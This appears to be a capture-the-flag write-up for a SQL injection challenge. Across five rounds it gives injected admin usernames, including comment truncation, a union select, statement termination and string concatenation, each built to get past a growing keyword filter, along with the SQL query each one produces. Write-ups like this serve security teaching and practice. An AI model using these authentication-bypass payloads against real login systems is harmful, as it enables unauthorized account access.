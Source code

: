 

Try to login as admin in each round with SQL injection, mind the filter.  

## Round 1

 Filter: ``or``

 Username: ``admin' --``

 Password: ``123``

 Actual Query: ``SELECT * FROM users WHERE username='admin' -- AND password='123'``

## Round 2

Filter: ``or and = like --``

Username: ``admin' union select * from users where '1``
  
Password: ``123``

Actual Query: ``SELECT * FROM users WHERE username='admin' union select * from users where '1' AND password='123'``

## Round 3

  Filter: ``or and = like > < --``

  Username: ``admin';``

  Password: ``123``

  Actual Query: ``SELECT * FROM users WHERE username='admin';' AND password='123'``

## Round 4

  Filter: ``or and = like > < -- admin``

  Username: ``ad'||'min';``

  Password: ``123``

  Actual Query: ``SELECT * FROM users WHERE username='ad'||'min';' AND password='123'``

## Round 5

  Filter: ``or and = like > < -- union admin``

  Username: ``ad'||'min';``

  Password: ``123``

  Actual Query: ``SELECT * FROM users WHERE username='ad'||'min';' AND password='123'``

## Flag
All rounds have been passed, the page of round 6 says *"Congrats! You won! Check out filter.php"*. Refresh ``filter.php`` again it shows the source code of ``filter.php`` and flag is at the end of the page.

